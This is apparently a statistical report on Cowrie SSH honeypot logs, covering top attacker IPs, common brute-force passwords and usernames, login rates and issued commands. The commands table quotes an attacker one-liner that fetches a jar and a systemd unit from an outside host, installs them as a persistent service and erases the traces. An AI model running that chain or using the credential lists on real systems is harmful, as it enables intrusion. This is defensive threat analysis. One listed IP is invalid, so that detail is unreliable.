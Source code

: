 # General Analysis

## Most Common IPs

| IP               | Repetitions |
|------------------|-------------|
| 51.75.45.185     | 115,611     |
| 123.127.10.217   | 12,392      |
| 146.190.96.229   | 11,181      |
| 143.198.159.112  | 4,394       |
| 116.110.27.124   | 3,975       |
| 159.203.12.13    | 3,582       |
| 193.201.9.104    | 2,937       |
| 165.232.166.202  | 2,888       |
| 170.64.187.77    | 2,568       |
| 170.64.211.168   | 2,568       |
| 212.70.149.150   | 2,483       |
| 85.209.11.227    | 2,406       |
| 170.64.147.11    | 2,322       |
| 170.64.232.238   | 2,322       |
| 170.64.236.52    | 2,322       |
| 6170.64.236.66   | 2,322       |

## Most Common Passwords

| Password    | Repetitions |
|-------------|-------------|
| 123456      | 2,431       |
| admin       | 1,443       |
| 1234        | 1,212       |
| broadguam1  | 988         |
| password    | 827         |
| root        | 807         |
| 12345       | 670         |
| 123         | 523         |
| 1           | 367         |
| user        | 363         |

## Most Common Usernames

| Username    | Repetitions |
|-------------|-------------|
| root        | 39,123      |
| admin       | 6,341       |
| user        | 858         |
| guest       | 772         |
| ubnt        | 717         |
| default     | 608         |
| oracle      | 561         |
| support     | 448         |
| test        | 438         |
| supervisor  | 427         |

## Most Common Pairs

| Password-Username     | Repetitions |
|-----------------------|-------------|
| broadguam1-root       | 988         |
| admin-admin           | 659         |
| root-root             | 658         |
| admin-root            | 468         |
| 1234-admin            | 360         |
| 123456-admin          | 278         |
| 1234-root             | 267         |
| 123456-root           | 263         |
| password-admin        | 242         |
| admin1234-admin       | 236         |

## Login Attempts

- **Success (cowrie.login.success):** 37,910 (55.8%)
- **Failed (cowrie.login.falied):** 30,073 (44.2%)

## Most Common Commands
* overall 3,346 logs with commands 

| Command | Count |
|---------|-------|
| uname -s -v -n -r -m | 600 |
| sh | 254 |
| shell | 253 |
| enable | 249 |
| system | 248 |
| wget https://download.oracle.com/java/21/latest/jdk-21_linux-x64_bin.deb && curl -sSL -o Stream.jar https://www.zippyshare.day/download/Ee1rqDBD1Rb7F5n/EQN9mEYX4m6dW/Stream.jar && chmod +x Stream.jar && sudo cp Stream.jar /etc/ && sudo dpkg -i jdk-21_linux-x64_bin.deb && curl -sSL -o streamer.service https://www.zippyshare.day/download/XxGCIBDG6UnYsBw/DM2BGwwJkGj40/streamer.service && sudo cp streamer.service /etc/systemd/system/ && sudo systemctl enable streamer.service && rm Stream.jar && rm streamer.service && rm jdk-21_linux-x64_bin.deb && java -jar /etc/Stream.jar | 181 |
| /bin/busybox cat /proc/self/exe || cat /proc/self/exe | 178 |
| kill %%1 | 143 |
| ping;sh | 143 |
| uname -a | 75 |



## Session Durations

### Top 3 longest sessions

| Duration | Count | 
|---------|-------|
| 201.97 sec | 1 |
| 191.43 sec | 1 |
| 189.75 sec | 1 |

### Top 3 shortest sessions

| Duration | Count | 
|---------|-------|
| 0.0002592  sec | 1 |
| 0.0002639 sec | 1 |
| 0.0002703 sec | 1 |

- Average duration **7.3686 sec.**
- Count cowrie.session.closed = **67,645**

## Activity 

| Date | Hour | Count | 
|-------|------|------|
| 28.02 | 23-00 | 1473 |
| 02.03 | 22-23 | 2354 |
| 06.03 | 12-13 | 1132 |
| 06.03 | 13-14 | 3688 |
| 07.03 | 8-9 | 1787 |
| 10.03 | 03-04 | 2383 |
| 11.03 | 17-18 | 1214 |
| 19.03 | 22-23 | 2445 |
| 06.03 | 13-14 | 3688 |
...

- count > 1000 per hour
